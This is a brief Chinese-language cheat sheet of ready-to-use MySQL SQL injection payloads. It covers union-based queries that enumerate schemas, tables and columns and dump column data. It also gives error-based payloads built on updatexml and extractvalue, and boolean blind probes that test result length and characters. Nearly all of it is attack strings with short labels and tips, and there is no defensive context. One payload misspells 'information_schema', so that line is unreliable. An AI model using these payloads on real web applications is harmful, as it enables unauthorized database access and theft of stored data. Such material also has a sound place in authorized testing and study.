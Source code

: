 # 常用命令



## sql注入常用语句

### 联合注入

​	库

```mysql
'union select schema_name from informationschema.schemata-- +
```

​	表

```mysql
'union select table_name from information_schema.tables where table_schema = '[库名]'/database()-- +
```

​	列

```mysql
'union select column_name from information_schema.columns where table_name = '[表名]'-- +
```

​	数据

```mysql
'union select group_concat([列名1],':',[列名2]) from [表名] -- +
```

### 报错注入

```mysql
'and updatexml(1,substr(concat(0x7e,([语句]),0x7e),1,32),1)-- +
```

```mysql
'and extractvalue(1,substr(concat(0x7e,([语句]),0x7e),1,32))-- +
```

​	注:	substr() = substring() = limit()

### 布尔盲注

​	判断结果长度

```mysql
'and length([语句])<200 -- +
```

​	判断结果的第1位是否为 'i'

```mysql
'and substr(([语句]),1,1)='i' -- +
```

​	注:	写脚本时常使用ascii()把字符转为数字再比较
